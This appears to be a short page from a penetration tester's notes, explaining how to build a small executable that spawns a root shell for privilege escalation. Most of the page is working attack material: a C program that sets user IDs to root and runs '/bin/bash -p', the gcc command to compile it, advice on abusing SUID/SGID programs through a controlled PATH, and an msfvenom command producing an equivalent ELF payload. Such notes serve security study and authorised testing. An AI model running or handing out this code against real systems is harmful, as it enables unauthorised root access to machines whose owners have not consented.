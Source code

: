 # How to Load a Shell with a Simple Executable

* **author**:: Nathan Acks
* **date**:: 2021-11-02

It's actually trivial to write a C program that loads up a shell.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void main() {
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile with:

```bash
gcc -fPIC -o /path/to/malicious /path/to/malicious.c
```

Note that this is *almost* identical to the LD_PRELOAD trick; the differences are:

* Use `main()` instead of `_init()` as our entry point.
* Compile without -shared and -nostartfiles.

A simple binary like this is useful for exploiting SUID/SGID applications that call other executables from part of the PATH that we control.

* [Exploiting LD_PRELOAD](exploiting-ld-preload.md)

## Metasploit

The msfvenom tool can generate binaries with essentially the same functionality as above.

```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf \
         -o shell.elf
```

* [Using Metasploit](metasploit.md)
